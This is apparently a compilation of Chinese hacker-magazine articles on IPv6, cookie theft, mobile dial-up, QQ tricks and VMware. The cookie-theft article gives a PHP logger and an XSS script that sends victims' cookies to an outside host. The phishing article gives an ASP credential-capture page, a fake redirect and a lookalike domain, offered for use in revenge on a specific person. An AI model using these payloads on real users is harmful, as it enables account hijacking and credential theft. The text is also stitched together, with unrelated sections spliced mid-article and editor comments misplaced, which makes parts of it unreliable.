- 3. **6to4 地址**

它其实就是用双协议技术，也叫双栈技术。它是把 IPV6 地址封装成 IPV4 格式，然后在 IPV4 网络中传输的，当然肯定就要用全局地址才行了。它的前缀为 2002::/16，它不是以 001 开头的地址，它的前缀只用了 16 位，那其余 48 位如何划分呢？其实它的完整格式应为 2002:AABB:CCDD:SLAID::/64，其中的 AABB:CCDD 是 IPV4 地址的 16 进制形式，SLAID 为站点 ID，刚好是 16 位，这就是用来划分子网的，后 64 位作为接口标识符。

## 十一、IPV6 的简单体验

由于现在都是 IPV4，所以要想使用 IPV6 还不太现实，即使开启了 IPV6 也不一定能正常使用，下面我们一起来看一下，看看开启后可以去试一下。在运行中输入“ipv6 install”来安装 IPV6，在 Windows 下只有 2000 需要下载安装专门的 IPV6 软件包（光盘有收录），其它则不需要。由于网吧禁用了运行，所以我直接在 CMD 下操作，如图 5。
图5 安装 IPV6

有时可能会安装失败，此时再次输入 ipv6 install 即可解决，无需重启，如图 6。在 IPV6 中的命令有所变化，如 ping 变为 ping6，即在命令后加了数字 6，但 IPV4 与 IPV6 中的命令大都可以通用，只是 IPV6 中的命令参数多了一些。现在输入 ipconfig 来查看一下 IP 地址，如图 7。
图6 安装成功

从图 7 中我们可以看到 IPV4 地址 192.168.2.47 对应的 IPV6 地址为 fe80::2e0:4cff:fe50:1560%5。这里 % 后的 5 表示区域 ID 号，又叫接口索引号，可以输入“netsh interface ipv6 show interface”来查看此 ID 号。
图7 显示 IP 地址
此时可以输入“ping ::1”来测试本地的连通性，也可以 ping 图 4 中的 IP 地址，这里 ping 图 4 中的 IP，如图 8。

这里 ping 或 ping6 命令都可以，安装 IPv6 后不会对 IPv4 造成什么影响，因为 IPv4 与 IPv6 是以双协议方式同时存在的。通常浏览网页时输入 http://www.xx.com 这样的形式，在 IPv6 中则输入 http://[www.xx.com] 来访问网页，如图 9。

这里弹出错误页面，因为网吧没有 IPv6 路由器，当然就不能识别 IPv6 格式的数据，可以用 show route 命令来看看路由状态。

一看路由状态就知道了，如图 10。

从图 10 中可以看到没有 IPv6 路由，如果安装 IPv6 后用 ping6、tracert6、netsh 诊断网络都是正常的，且访问网页也正常，那说明 IPv6 能正常工作了。如果你要卸载 IPv6，可以在本地连接的属性中进行，不用重启也可以使卸载生效，如图 11。

由于篇幅有限，文章就到这里吧，你可以自己去测试一下，有问题来 NoHack 和我一起讨论。

> **编辑点评：**
>
> IPv6 不是简单单纯的 IPv4 地址容量的扩充，而是 IP 地址的一次革命，今年 IPv6 就要投入使用了，你准备好了吗？

## 浅析 cookie 窃取攻击

从本文您可以学到：

- 1、认识 cookie
- 2、了解 cookie 攻击的简单原理

在 XSS 大行其道的今天，cookie 劫持是跨站脚本攻击中一个很主要的攻击方向。那么为什么 cookie 如此重要呢？

首先，我们来了解一下什么是 cookie，还有 cookie 里到底存放着什么。

Cookie，有时也用其复数形式 Cookies，指某些网站为了辨别用户身份而储存在用户本地终端上的数据（通常是经过加密的），定义于 RFC2109。服务器可以利用 Cookie 包含信息的任意性来筛选并经常性维护这些信息，以判断在 HTTP 传输中的状态。Cookie 最典型的应用是判定注册用户是否已经登录网站。另一个重要应用场合是“购物车”之类处理。用户可能会在一段时间内在同一家网站的不同页面中选择不同的商品，这些信息都会写入 Cookies，以便在最后付款时提取信息。

看了上面的内容相信大家对 cookie 已经有所了解了。那么，请您浏览一个需要登录的页面（比如论坛），进入之后，把地址栏清空后在地址栏里写入 javascript:alert(document.cookie)。你就会看到这个登录页面在你计算机里保存的 cookie 了。

很显然，cookie 并不是十分安全的，如果任何形式的漏洞给予攻击者得到别人 cookie 的机会，都是相当危险的。非常不幸，很多站点都在 cookie 的安全上存在这样或那样的缺陷。这让黑客们很轻松地得到了 cookie 中保存的密码加密后的散列，虽然这并不意味着他们很有可能修改我们所精心构筑的防线，但起码，这为他们入侵提供了一扇窗。

现在，你知道为什么 cookie 是重要的了，它经常存放着异常敏感的用户信息。但是，我们如何才能得到或者更改别人的 cookie 呢？这便是 cookie 劫持了。

cookie 劫持包含两个条件。首先，你需要一个脚本来获取 cookie；另外，需要一个途径把截取到的 cookie 发送到我们的脚本。写一个获取 cookie 的脚本是很简单的事情，真正的困难在于我们如何得到我们需要的那个途径。下面便是一个 php 的获取 cookie 的脚本（也可以用 ASP 来写这个脚本）。

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen('cookie.txt', 'a');
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

我们把这个脚本放在支持 PHP 的空间里保存为 cookie.php。那么，第一个条件我们已经有了。

让我们假设有一个网站。这个网站有用户登录的页面，可以是个留言板或者论坛什么的，而且这个网站没有任何形式的过滤。这意味着我们可以随意地把 HTML 和 JavaScript 语句直接插入到任何用户输入的地方。我给你一个借鉴的代码，我们可以用这个代码来获取用户的 cookie：

```html
<script>
 document.location = 'http://你的网址/cookie.php?cookie=' + document.cookie;
</script>
```

现在，任何浏览这个页面的人都会被你的攻击语句指向你获取 COOKIE 的脚本，并执行你的代码。你可以去查看一下你网站根目录下的 cookie.txt，它保存着访问这个页面的人的 cookie 了。

但是，cookie 窃取攻击并不是如此简单。如果网站管理员在用户输入中加入了过滤代码，那么 cookie 窃取便变得非常难以利用。

所以，cookie 窃取和其他 XSS 攻击一样，主要都是研究如何绕过过滤，实现我们入侵的目的。OK，文章就到这里，如果你对 cookie 窃取攻击很感兴趣，欢迎到 nohack 论坛和我们一起探讨。

> **编辑点评：**
>
> cookie 窃取并不是一个新技术了，但在今天这种攻击方法还普遍存在，特别是一些小的留言本、博客什么的，你可以通过 cookie 欺骗以高权限登录，然后再进行突破。

## 电脑利用 PHS、CDMA 无线上网

- 过客似风。

**本文你可以学到：**

怎样通过手机来实现电脑的无线上网

上次 habina 为大家讲了电脑利用手机 GPRS 上网，这次我为大家讲一讲如何用 PHS（即小灵通）和 CDMA 来实现电脑的无线上网。方法也差不多！

## 一、PHS（小灵通）

目前国内 PHS 拨号上网最高速率可达 **65Kbps**。请查询你的手机说明书，检查你的小灵通是否支持通过数据线上网功能。目前支持小灵通数据线上网的手机主要集中在 UT 斯达康的手机，包括 UT228、UT115、UT221、UT611、UT228Q、UT115Q、UT221Q、UT611Q 等。另外还必须注意检查，你的手机支持的上网速率是 32Kbps 还是 65Kbps。数据线自己准备，但要注意分清数据线的接口与你的手机是否匹配，因为第一代小灵猫（小灵通数据线的昵称）和第二代小灵猫的接口是不一样的。

首先将小灵猫的 USB 接口连接笔记本电脑。这时，电脑会提示找到新硬件，我们首先需要为小灵猫安装驱动程序。

- 驱动程序安装完成后，你的电脑设备管理器中将增加“Prolific USB Mobile DDI-H”的设备。
- 创建拨号连接并运行“程序－附件－通讯－新建连接向导”，按下一步，弹出如图 1 所示，之后有两种方法（都附图说明）：
  - 按照如图 2（注意：电话号码、用户名、密码因地而异，请拨打当地的电信运营商的服务电话询问）的设置后最后点完成即可。
  - 如图 3。
- 拨号设置和 habina 讲的差不多，到网络连接中右键选择刚建立的连接，选属性，在常规项中选最高速度 460800，若不稳定再依次降低。在网络选项中只勾 Internet 协议（TCP/IP），若有无法去掉的钩就留着吧。
- 运行刚创建的拨号连接，如图 4，填上电信运营商提供的电话号码、用户名、密码，你的笔记本电脑就可以上网冲浪了！

## 二、CDMA

所谓 CDMA，其专业名称是码分多址（Code Division Multiple Access）技术，是一种基于扩频通信技术而发展起来的无线通信技术。CDMA 也能进行高速数据通信，目前最高传输速率可达 **153.6Kbps**。目前，运营 CDMA 网络的国内运营商主要是中国联通。

首先请拨打当地联通的免费服务电话，询问是否支持 CDMA 上网并要求开通该业务（一定要开通哦，因为默认是不开通的）。查询你的手机说明书，检查你的手机是否支持 CDMA 上网功能，支持 CDMA 上网的手机比较多，诺基亚、摩托罗拉、三星等手机基本都支持。数据线就不用说了，还可以通过手机红外和笔记本电脑的红外对接，具体方法和小灵通的差不多。

- 将数据线连接手机，再将数据线的 USB 接口插到笔记本电脑的 USB 接口上，Windows 会提示发现新硬件，选择“搜索适于我的设备的驱动程序”选项，单击“下一步”。
- 将手机的驱动程序光盘放入光驱，硬件向导会自动搜索到与之匹配的驱动程序，单击“下一步”开始安装。安装完成后，在控制面板的“系统”属性里，设备管理器的“调制解调器”项中可以看到安装的手机设备名。此时可以利用手机附带的通信软件，尝试将电脑中的图片等内容拷贝到手机中，以测试两者是否能正常通信。
- 进入“控制面板”，双击“电话和调制解调器选项”，进入选项中的“调制解调器”子项，选中刚安装好的设备名，单击“属性”后，在常规选项下，设置“最大端口速度”与手机一致即可（默认的也行）。
- 最后，创建拨号连接。拨号连接的创建和上面 PHS 的步骤几乎一致，就不截图了。须注意的是电话号码一般是：#777，用户名和密码一般为“card”（不是灵通号码，若不行就 CARD，或为大写的 CARD）。此外，你还可以致电当地的联通公司询问电话号码、用户名及密码。

## 三、小结

网络速度方面，PHS 理论速率最高可达 65Kbps，GPRS 理论速率最高可达 56Kbps，CDMA 理论速率最高可达 153.6Kbps。根据测试，PHS 实际速率可稳定在 52Kbps 左右，GPRS 实际速率可稳定在 30Kbps 左右，而 CDMA 实际速率可稳定在 65Kbps 左右。

价格资费方面，各地价格不一致，以目前广州为例，电信的小灵通拨号资费标准与固定电话拨号资费标准一样，每小时 3.6 元左右；联通的掌中宽带业务同时支持按时长计费及按流量计费两种计费模式，时长计费模式下标准资费为 0.20 元/分钟，每小时 12 元左右（狂出血！），另有资费套餐可选（建议）。而移动的 GPRS 则按全球通、动感地带和神州行进行分类，每类下面又有若干套餐，非常复杂，而且各类套餐基本以流量为计算标准，比较难估计，但粗略估计，正如上次小编所说，如按小时计费，你会很惨的！

稳定性方面，小灵通稳定性较差，不过现在改善了不少，在市区里还是不错的，GPRS 和 CDMA 稳定性相差不大。

**后语：**

好了，就这么多。最后再唠叨一下，现在《黑客》手机越办越好了，令人爱不释手，但每一期都是一次漫长的等待（买杂志难呀！）。

前语

我发现最近各种盗 QQ 的病毒特别猖狂，QQ 安全中心玩命地弹窗警告，杀都杀不掉，不过幸好有自己写的登录器来保证密码的安全。然后我就想：哎，QQ 密码的加密方案已经公布这么久了，各种登录器也满天飞，怎么就没有一个病毒是针对这些加密器的呢？这种病毒的编写可以说根本没有任何难度的，并且拿到密码照样也可以登录 QQ 啊。要不我写一个？考虑了一下，呵呵……

## QQ 钓鱼全攻略

图 by 落叶纷飞

从本文您可以学到：

如何制作一个简单的 QQ 钓鱼页面

今天我们 band 队的阿源问我能不能帮他做个假的 QQ 登录页面，他要报复一个人。我想了下，应该也就是 QQ 钓鱼吧！但他说要连域名都和 TX 的一样，等事成之后就请我去吃肯德基。我靠~~！怎么可能连域名都一样啊？但仔细想了下，终于想到了一个办法~

首先，我们设计一个钓鱼页面的雏形。先用 Access 制作一个数据库 qq.mdb，建立一个 pass 的表，表里只要建 name 和 pass 两个字段就行了。现在我们来写数据库提交页，把如下代码保存为 qq.asp：

```asp
<%
dim db,strcon,qq,pass,rs,strSql
on error resume next
strcon="dbq="&server.mappath("qq.mdb")&";driver={microsoft access driver (*.mdb)}"
set db=server.createobject("ADODB.connection")
db.open strcon
qq=Request("qq")
pass=Request("psw")
strSql="INSERT INTO pass(name,pass) VALUES('"&qq&"','"&psw&"')"
db.Execute(strSql)
%>
```

呵呵，只要我们对 qq 和 psw 变量赋值，这两个变量的值就会插入到数据库中了。但这只是一个雏形，我们现在来制作一个登录页。登录页我们就不要自己写了，直接保存 TX 一些活动的网页下来修改，这里我就使用了 http://pet.qq.com/ 的代码，先用记事本打开它，查找“action”这个关键字，然后替换 action 后面的值为 qq.asp，再往下看，找到 QQ 号码和 QQ 密码的 input，替换 QQ 号码的 name 参数为 qq，QQ 密码的 name 参数为 psw。呵呵，一个钓鱼页就这么做成了，我们打开看看！如图 1 所示。

我们只要在登录框里输入 QQ 账号和密码，那么输入的 QQ 账号和密码就会写进数据库 qq.mdb，但是提交后却是一个空白页，是人都会怀疑。现在我们就来处理登录后的事，在 qq.asp 里添加以下代码：

```html
<script language="javascript!">
alert("目前系统繁忙中... 请您稍后登录！")
<!--
window.location="http://pet.qq.com/index.shtml";
// -->
</script>


```

呵呵，现在可以了吧，如图 2 所示。但是，要令钓鱼页为 TX 的域名，该怎么做呢？忽然想起前几天发现的一个域名申请地址：http://www.qq.la/reg/，它免费为我们提供 name.qq.la 这样的域名，而且没有中转页的哦！还有，它现在支持 3 位字符的域名，而且也支持 1—2 位字符的域名申请哦！就是说，我们可以几乎完美地实现我们的钓鱼！如图 3 所示。

申请好后，我们的钓鱼页就完美地完成了，如图 4 所示。试问，一个人发给你一个 pet.qq.la 的网址说 QQ 搞活动了，只要登录就能拿奖品，你会不相信吗？

让我深刻体会到一个月原来那么长！！！新年快到了，最后给《黑手》拜个早年，祝《黑手》在新的一年有新的发展！

> 编辑点评：
> 好了，文章至此，利用手机上网的方法讲解全了。正赶上放假回家，李本本在车上联网打牌，不会寂寞了。呵呵。

> 编辑点评：
> 本文的思路其实以前的杂志也有过，但本文的优点其实在最后的域名，这个域名确实很有迷惑性。如果你只有普通的域名其实也没关系，可以用超级链接连接到一个非 QQ 页面，然后在这个页面里用 js 重写地址栏，不妨试试哦。

## 打造个性 QQ 登录

从本文您可以学到：

如何利用 ResScope 打造个性的登录界面

目前 QQ 版本更新得很快！但是有些功能也陆续地开始简化！下面我教大家来进一步设置修改 QQ 客户端，打造自己的个性化 QQ！

软件：QQ2007II Beta2（最新版本客户端） QQ2007 Beta4（旧版本）
工具：ResScope 1.94（我网站中可以提供下载） 做图软件自备

## 自定义登录界面

以往的腾讯 QQ 客户端的登录界面都显得很通俗，下面我们自定义个性化的登录界面！

在 ResScope 1.94 中打开 QQ2007II Beta2 根目录中的 LoginCtrlRes.dll，如图 1。在左面的资源中依次找到并选中 Bitmap → 963，将其导出资源为 963.bmp，如图 2。

用同样的方法再把 Bitmap → 16050 导出资源为 16050.bmp。

把导出的两张图片文件用做图软件做适当的修改，切记不要改变图片的尺寸！

图片文件制作好后，再用 ResScope 1.94 将其导入到 LoginCtrlRes.dll 文件中！

这是已经制作好的图片文件！如图 3。

在 ResScope 1.94 中打开 QQ2007II Beta2 根目录中的 LoginCtrlRes.dll，在左面的资源中依次找到并选中 Bitmap → 963，将其导入资源为 963.bmp，如图 4。

用同样的方法再把 Bitmap → 16050 导入资源为 16050.bmp。

好了！保存之后登录 QQ 看一下效果吧！如图 5。

## 修改关于信息

在 ResScope 1.94 中打开 QQ2007II Beta2 根目录中的 QQRes.dll，如图 6。在左面的资源中依次找到并选中 Dialog → 430，将其做适当的修改即可！如图 7。

其余的也可以根据自己的喜好进行修改。

保存之后登录 QQ 看一下效果吧！如图 8。

## 开启群消息提醒功能

这个功能是非常实用的！在以前的 QQ 版本中，有这几项：

- 接收并提示消息
- 自动弹出消息
- 消息来时只显示消息数目
- 接收但不提示消息（只保存在聊天记录中）
- 阻止一切该群的消息

但是现在的 QQ2007II Beta2 版本中没有了以前的那些群消息功能，只简化成了：

- 接收并提示消息
- 屏蔽消息（只显示消息数目）

下面我来通过修改 QQ2007II Beta2 版本来恢复以前版本中的那些群消息功能！

在 ResScope 1.94 中打开 QQ2007 Beta4 根目录中的 QQRes.dll，在左面的资源中依次找到并选中 Dialog → 696，再点十六进制编辑器先把代码复制下来备用！如图 9。

再在 ResScope 1.94 中打开 QQ2007II Beta2 根目录中的 QQRes.dll，在左面的资源中依次找到并选中 Dialog → 696，再点十六进制编辑器把刚才复制下来的代码粘贴进来！如图 10。

保存，下面登录 QQ 看看效果吧！如图 11。好了！我不多说了，到此结束！886……

> 编辑点评：通过修改资源来打造个性的软件，这是一件很有意思也很有意义的好事，不仅 QQ，其他软件也可以，只要你能找到相应的资源文件。如果遇到不能编辑的，那一般就是软件加壳了，先脱壳，再修改。

## 突破 QQ 相册上传数量限制

从本文您可以学到：怎样简单地突破 QQ 相册上传数量限制

用过 QQ 相册的人都知道，往 QQ 相册上传图片，有时系统会提示你“今天上传的空间已满，请明天再传，现在开通黄钻可以享受 VIP 上传通道！”，难道上传几张图片也要花钱升级为黄钻吗？下面我就给你介绍一种不用升级为黄钻也能一样随时上传图片的方法！

首先登录你的 QQ 空间，进入留言板模块，找到留言窗口，如图 1，点击编辑“主人寄语”，点击窗口上面工具栏中的“插入图像”按钮，如图 2，在弹出的对话框中选择“从相册选一张或上传一张新图”，选择你想要上传的相册目录，然后在“本地上传”中点击你要上传的图片，如图 3。上传成功后，返回相册，看看图片是不是乖乖地在你的 QQ 相册里啦！

> 编辑点评：TX 总是百密一疏，虽然这种方法麻烦了一点，但不失为一个很好的办法，以后如果你遇到这个问题，相信一定难不倒你了。

## QQ 鲜为人知的“秘密”

■ baiqwer

从本文您可以学到：
QQ 使用过程中容易被忽略的小技巧

下面给大家带来的是几个 QQ 鲜为人知的功能，并不是讲究什么技术，只是这些细微的小处被大家所忽略了。闲话少说，开始进入正题。

一、QQ 其实也拥有自己的电台，跟着我做，打开 QQ 的用户自定义面板，如图 1。点开之后，会看到一个收藏夹，点击一下，然后点击设置，你会看到 Q_Radio，在前面打上对号；然后看一看，是不是原先的万花筒变成了 Q_Radio 的界面，如图 2，一边聊天一边听，是不是省下了找歌的麻烦？呵呵。

二、我们也可以在 QQ 上看 QQ 电视。具体是这样的，和上面的一样，找到自定义面板，然后点击收藏夹里的设置，下一步就改变了，点击添加按钮，将会在收藏列表下增加一个项目。在“详细信息”下的“名称”后输入项目的名称，如：QQ 电视。在“链接”后输入 http://www.qq-tv.com，确定后即可。如图 3。

三、不显示自己的摄像头。我想这个功能应该有很多人知道吧，嘿嘿。其实是一件很简单的事，打开个人设置，找到那个“不把自己列在视频用户中”就可以了。呵呵，如图 4，这样就可以了；看看那些恶意视频请求的骚扰怎么办。

四、从好友名单里消失。很多人都知道，虽然我们把好友删除了，但我们却依然在对方的好友里，怎么办呢？我现在教大家一个很简单的方法，大家应该都知道 TM 吧，就是用这个。首先登录 TM，然后在里面把好友删除，出来警告信息点“是”就可以了。这样就可以和好友彻底“永别”了，呵呵。

五、像我们电脑迷们一定会有一百以上的好友吧，嘿嘿，那要是找一个人的话，那还不累死？现在 QQ 总是为我们着想，呵呵，右键点击自己 QQ 的主界面，然后点击查找好友，这样的话是不是省事很多呢？呵呵。

六、我们还可以让控制面板隐身呢，其实也蛮简单的，只需点击主面板右上方加号所示“颜色编辑”按钮，然后选择 80%，看，是不是看不见呢？当然，颜色也是在这里变化的，呵呵。还有一种方法，那就是在弹出菜单中的更换皮肤中选择“界面隐藏”即可，如图 5。

当然还有许多我不知道的，有未知才有干劲嘛，自己挖掘，才可以从中获得发现的乐趣，其实都是很简单的，只要善于留意就可以了，我的 ID 是 baiqwer，希望和大家做个朋友。最后再一句话，“有信心才会有成功，为了未来的黑客之路，冲啊～～”

> 编辑点评：
> 本文技术含量不是很高，只是提醒读者 QQ 里其实还有很多功能等着你去发掘，比如利用 QQ 迷你门户和自己的个人空间，制作一个可以随身携带的工具箱……

## 免费领取 QQ 秀

■ slt（孙浪涛）

从本文您可以学到：
如何免费领取 QQ 秀

某日在申请 QQ 号的时候发现新号可以免费领取 QQ 秀，如图 1。心想如果老号也能领就好了。

复制下领取 QQ 秀那页的网址，也就是 http://show8.qq.com/my/inc/reg04.html?character=7&style=1&sex=M

然后关掉前面的网址，重新开网页，先点点看，随便点一个。出现了如图 2 的东西，点击确定后出现了如图 3 的登录框，然后登录，又回到了领取 QQ 秀的页面，随便选一套，然后点“就要这套”，出现如图 4 的网页，哇！领取成功了。

现在去商城看看。看图 5 确实有我们领的 QQ 秀。点保存，不知道为什么出现图 6 的情况。那就更换掉，随便脱掉一件 QQ 秀点保存，保存成功后再穿上那件再点保存。如图 7，成功了。回到 QQ 看看效果，如图 8。呵呵~

有人问了这些 QQ 秀都是男的没女的。呵呵，后来申请个女号，看了下领取地址是 http://show8.qq.com/my/inc/reg04.html?character=7&style=1&sex=F，也就是把男的地址后面的“M”换成“F”。
后来还发现把“character=7&style=1”的“1”换成“0”就是卡通 QQ 秀。
也就是：http://show8.qq.com/my/inc/reg04.html?character=7&style=0&sex=F

同样把后面的“F”换成“M”就是男的了。遗憾的是只能领一套，过期后才能领另一套。

**小技巧：**打开领取 QQ 秀的页面后可以按刷新变换 QQ 秀的样子。

## QQ 秀，我们我秀
和 QQ 好友聊天的时候，看着别人的超酷 Q 秀，而自己的白衬衫……心里不是很滋味（主要是攀比心理作怪），想想如何在“不盗、二不讨、三不买”的情况下把自己的 Q 秀充实一下！方法有很多，看我一一道来！

### 1. 网页领取

网页领取的有 2 种：一种是新 QQ 注册 QQ 秀时的网站，第 2 种是 2.0 版最新免费 QQ 秀，超酷！！

- 经典男装：http://show8.qq.com/my/inc/reg02.html?style=0&sex=M
- 经典女装：http://show8.qq.com/my/inc/reg04.html?character=6&style=0&sex=F
- 男生：http://show8.qq.com/my/inc/reg02.html?style=1&sex=M（2.0 版最新）
- 女生：http://show8.qq.com/my/inc/reg02.html?style=1&sex=F（2.0 版最新）

填写 QQ 资料后再提交自己喜欢的 QQ 秀，如图 3，这样就免费获得最新 QQ 秀，赶快行动吧！
### 2. QQ 红豆换取 Q 秀

免费领取 QQ 红豆兑换免费 Q 秀，活动地址：http://live.show8.qq.com/live/bean/，登录即可免费领取 600 红豆，红豆可以换相关 QQ 秀，还可以参与开宝箱游戏。

> Q版：又是新年

又是新年。初一的话应该是 7 号或 8 号吧，没去确定正确答案。从学校回到家里，感觉突然一下子冷了好多。记得小时候初一去拜年，穿得老厚，哪里都是天寒地冻的景象，北风呼呼地吹……我想过春节于 80 后的我们来说，似乎还没有元旦或圣诞这样的节日爽。春节嘛，那时候好多了，唠会儿把没见过的亲戚，到各处吃饭等，时间都花在这上面，做喜欢做的事情的时间就少了，所以我更喜欢十一这样有实质性意义的节日：国庆七天乐啊！可惜五一长假取消了，以后也没寒暑假了，哎呀……
## 浅谈 VMware 虚拟机的使用

- 从本文中你可以学到：
- 如何新建虚拟机
- 在虚拟机上安装 OS 的两种方式
- 如何修改虚拟机的各项配置
- 如何在母机和虚拟机之间传送文件

多出的两个连接可以使虚拟机与母机进行通信。这是由 VMware 虚拟机虚拟出的网卡提供的连接，由虚拟出的 DHCP 服务器自动分配 IP。

### 关于虚拟机

虚拟机是工作在操作系统之上的软件，用户可以实现在运行一个操作系统的时候分配系统资源，建立一个虚拟的操作系统运行环境，使其具备在一个平台上再运行一个或多个操作系统的能力。不仅如此，虚拟机还可以虚拟网络设备，例如交换机等，用这些虚拟的网络设备可以组建成各种网络拓扑结构的网络。不过，你要保证自己的机器有足够的能力运行这些虚拟机。

每个 Windows NT 或更高版本的系统，内存底线是 256M，磁盘空间 2G。如果虚拟机数量超过 2 台，就要使用更强悍的 CPU 才能保证正确运行过程中的多任务。如果只运行一个虚拟机进行搭建练习，建议配置 1G 内存、3G 或更多的剩余磁盘空间、Pentium 4 2.0 以上的 CPU。在 Windows 平台下最常见的虚拟机软件有 VMware、Microsoft Virtual PC，其中 VMware 功能要更强大。我们以下也是以此为例进行讲解，版本是较新的 6.0.0 中文版。

- 1. 虚拟机的作用：用途广泛，学生可以用它来练习安装各种软件，甚至是格式化系统等危险操作；系统 DIY 爱好者测试镜像；网络安全爱好者组成复杂的网络进行入侵演练；程序员测试程序在不同操作系统或系统版本下的兼容性等等……
- 2. 虚拟机软件的安装：像安装一般的软件一样容易，一路“下一步”即可安装成功。安装完成后大家可以到网络连接里面看看，如图 1。
### 如何新建虚拟机

运行 VMware 虚拟机，在工作界面的“文件”菜单——“新建”——“虚拟机”，弹出“新建虚拟机向导”对话框，点“下一步”，在虚拟机配置对话框中有两个选项，选择“典型”后开始选择操作系统。VMware 6.0 提供对 MS-DOS、Windows、Linux、Novell Netware、Sun Solaris、FreeBSD 等系统的支持，（我们就以装 Windows Server 2003 企业版为例吧）如图 2。
点击下一步，填写虚拟机的名字并选择一个文件夹作为虚拟机的“磁盘”，如图 3。（建议单独分个盘符作为虚拟机的专用盘）

继续“下一步”，配置虚拟机的网络环境，如图 4。

> TIPS：
> 桥接网络：说白了就是与母机同处在一个局域网中。

### 3. 星空大转盘

只要是 QQ 秀用户都可以参加大转盘活动，活动地址：http://live.show8.qq.com/live/roulette/，如图 4，我只是换了 5 个 QQ 号就总共抽到 5 Q 币的东西。

### 4. 时事热点

QQ 秀商城的“首页”里有个“时事热点”，专区内所有物品均为免费物品，每件物品的使用期限为 15 天，支持按钮表示您支持了此件物品并购买。

### 5. 参加各种活动领 Q 秀

例如：1. 藏莉诗 2. 答坛 3. 康师傅 4. 2008 奥运……都有免费的 Q 秀送。这样多的 QQ 秀，你不可能不装扮吧！全装扮起来，合成一套，我晒命的哦（好笑中）。哈哈哈……
使用网络地址翻译（NAT）：虚拟机使用与母机映射的端口进行通信。如果单纯想使用虚拟机上网，建议使用这种连接，不需要额外的设置即可联网。

使用 Host-only 网络：使用一个内部私有网络。

不使用网络连接：没有指定网络连接，不推荐使用。

再次点击“下一步”，指定磁盘最大占用容量，VMware 6 提供对 0.1G～950G 虚拟硬盘的支持，默认为 8G，不过这并不是立即分配磁盘空间。虚拟硬盘文件刚建立的时候最小，随着虚拟机中操作系统占有的空间增多而增多。好，点击完成就创建成功了，也就是说虚拟机软件经过配置后已经给要安装的目标系统搭建好了环境。
下一步自然是安装系统了哦！VMware 提供两种方式安装系统：使用光盘从光驱引导系统，这与我们平时装系统相像。此外还可以使用镜像安装系统，设置方法是点击在虚拟机菜单下的“设置”，顺便可以设置下内存，我用作测试，就默认 384M 吧，如图 5。

点选“CD-ROM”项，选择“使用 ISO 镜像”，并选择镜像路径，如图 6。（PS：只支持 .iso 格式镜像哦）
现在可以点“启动”了！如图 7。看见了吧？系统开始引导了，如图 8。
至于操作系统的安装我就不说了（*^__^*）。用镜像安装速度很快，一般十几分钟就搞定了。看，这是安装完成界面，如图 9。
### 虚拟机与母机的数据交流

- 1. 虚拟机映射磁盘到母机

VMware 6 给我们提供了磁盘映射的功能。点击“虚拟机”菜单，然后“设置”——“硬盘”——“实用程序”——“映射”，如图 10。

在弹出的对话框中可以选择驱动器盘符和对文件的读写权限。例如盘符我们选择“S:”，权限我们可以选择读写，就是去掉只读模式前面的钩，如图 11。
映射后，在母机的“我的电脑”中就可以看到映射的虚拟机磁盘了，如图 12。

- 2. 母机文件夹共享给虚拟机

再次点击“虚拟机”菜单（貌似这个菜单实在是重要，提到 N 遍了）——“设置”——“选项”，单击“共享文件夹”，如图 13。

在右边的选项中点“总是启用”或“在下次电源关闭或挂起前启用”，前者是共享的文件夹一直奏效，后者仅当前奏效，重启或挂起后就不起作用了。光选择了还不行，还要添加要共享的文件夹，点“添加”吧！按照对话框提示一步一步地来吧，选择好路径，创建完成后效果如图 14（把母机的 G 盘共享给虚拟机）。
> 注意：共享需要 VMware Tools 的支持，否则不能共享。

他们会经常利用虚拟机测试一些危险的程序，搭建一些服务，有了这个功能就不用再为恢复系统发愁了！

### 3. 开启母机与虚拟机之间的拖拽

同样在“虚拟机”——“设置”里的选项，点击“客户机隔离”，把右边的客户端两个选项前面打上勾，则可在母机与虚拟机之间进行拖拽与文件操作，如图 15。
这样操作是不是感觉很不爽？我们来设置下，首先在虚拟机中将分辨率改成与母机相同。点击 VMware 的“查看”菜单——“全屏”，就切换到全屏模式，很像 3389 远程桌面哦。哎呦，鼠标怎么在虚拟机里出不来了？按 Ctrl+Alt 吧，是不是出来了，记住哦！虚拟机系统装好了，现在你可以像在自己机器上搭建环境一样搭建各种服务了。

### 虚拟机的 VMware Tools

不知道大家有没有注意到一点，在虚拟机开启的时候，界面的左下方有一个“警告”标记，如图 20。
VMware Tools 是个什么东西呢？简而言之就是一个虚拟机驱动，主要增强 VMware 虚拟机的显示效果及鼠标性能。安装 VMware Tools 其实很简单，只需单击“虚拟机”菜单，选择“安装 VMware Tools”，只要虚拟机是在运行着的，VMware 会自动给运行的虚拟机发送一个安装程序，安装结束后重启生效。我在 Red Hat Enterprise Linux 5 中安装成功，但是在 Windows 中安装失败。后来我是这样解决的：将虚拟机安装文件中的 Windows 驱动文件导入虚拟光驱，在虚拟机中选择光驱为虚拟光驱对应的驱动器，然后安装就可以了。重启后警告就消失了，任务栏右下角也会显示虚拟机 VMware Tools 图标，如图 21。

### 4. 通过移动设备

如光驱、U 盘、移动硬盘等可以很方便地跟虚拟机连接并传输数据。这要点击“虚拟机”菜单——“可移动设备”。看见了吧，所有的可移动设备全在这里了，如图 16。
这样以后，显示效果得到增强，鼠标也可以不使用快捷键释放了。还有一些其他的功能也不再受到限制。

### 虚拟机下的屏幕录像及远程显示

单击“虚拟机”菜单，“捕捉屏幕”是对屏幕截图，“捕捉视频”就是捕捉你的操作，选择好录像的名称和存储的路径后就可以做成 .avi 格式的视频教程，非常方便。在 1024×768 分辨率、32 位真彩色显示下，使用“中”视频质量屏幕录像，每分钟大约产生 2M 的文件。

在“虚拟机”——“设置”里点“选项”——“远程显示”，勾选“启用远程显示”，指定好通信端口、连接密码，并安装 VNC 被控端就可以使用 VNC 主控端进行连接了。

### 虚拟机的“紧急救援”

我们每次给自己装好系统都要给新系统做个备份，以便系统崩溃后进行恢复。用得最多的软件莫过于 Ghost 了。在虚拟机上可不用这个，它为我们准备好了一个叫“快照”的东西。只要做个快照就可以了，快照记住了系统的某个瞬间，便于系统出现问题后恢复到那个点。这个方式比 Ghost 还要优越。

快照多了怎么办？VMware 同样为我们提供了快照管理器，我们可以选择某个点进行快照的恢复。各个恢复操作的具体操作步骤是：点击“虚拟机”菜单——“快照”——“从当前状态创建快照”，即可创建一个虚拟机的快照。点恢复上一个快照就可以恢复最新创建的快照，而点击快照管理器就可以选择相应的快照进行恢复，如图 17。
如图 18 是使用快照正在恢复一个虚拟机，图 19 为快照管理器。是不是十分方便呀？
> TIPS：
>
